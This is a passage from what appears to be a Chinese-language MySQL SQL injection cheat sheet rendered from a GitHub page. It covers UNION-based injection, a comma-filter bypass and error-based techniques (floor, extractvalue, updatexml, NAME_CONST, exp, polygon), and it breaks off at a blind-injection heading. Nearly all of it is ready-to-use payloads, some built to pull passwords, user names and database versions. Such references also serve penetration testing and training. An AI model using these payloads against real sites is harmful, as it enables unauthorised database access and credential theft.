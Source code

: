 **`and 1=2 UNION SELECT 1,2或 id=-1 UNION SELECT 1,2`**

### 1.2.3 基本语法

**`UNION SELECT 1,password,3 from admin`**

### 1.2.4 过滤了逗号绕过

**`select 1,2,3 where 1=2 union select * from (select version())a join (select database())b join (select database())c;`**

## 1.3 报错注入

**mysql暴错注入方法整理，通过floor，UpdateXml，ExtractValue，NAME_CONST，Error based Double Query Injection等方法**

### 1.3.1 floor

**`?id=1 OR (SELECT 8627 FROM(SELECT COUNT(*),CONCAT(0x70307e,(SELECT user()),0x7e7030,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)`**

### 1.3.2 ExtractValue(有长度限制,最长32位)

**`?id=1 and extractvalue(1, concat(0x7e, (select @@version),0x7e))`**

### 1.3.3 UpdateXml(有长度限制,最长32位)

**`?id=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)`**

### 1.3.4 NAME_CONST(适用于低版本，不太好用)

**`?id=261 and 1=(select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)`**

### 1.3.5 Error based Double Query Injection

**`?id=1 or 1 group by concat_ws(0x7e,version(),floor(rand(0)*2)) having min(0) or 1`**

### 1.3.6 exp(5.5.5以上)

**`id=1 and (select exp(~(select * from(select user())x)))`**

### 1.3.7 polygon

```mysql
mysql> select * from users where username=""and polygon (password);
ERROR 1367 (22007): Illegal non geometric '`security`.`users`.`password`' value found during parsing
```

## 1.4 BOOL盲注

**盲注的时候一定注意，MySQL4之后大小写不敏感，可使用binary()函数使大小写敏感。**

### 1.4.1 构造布尔条件

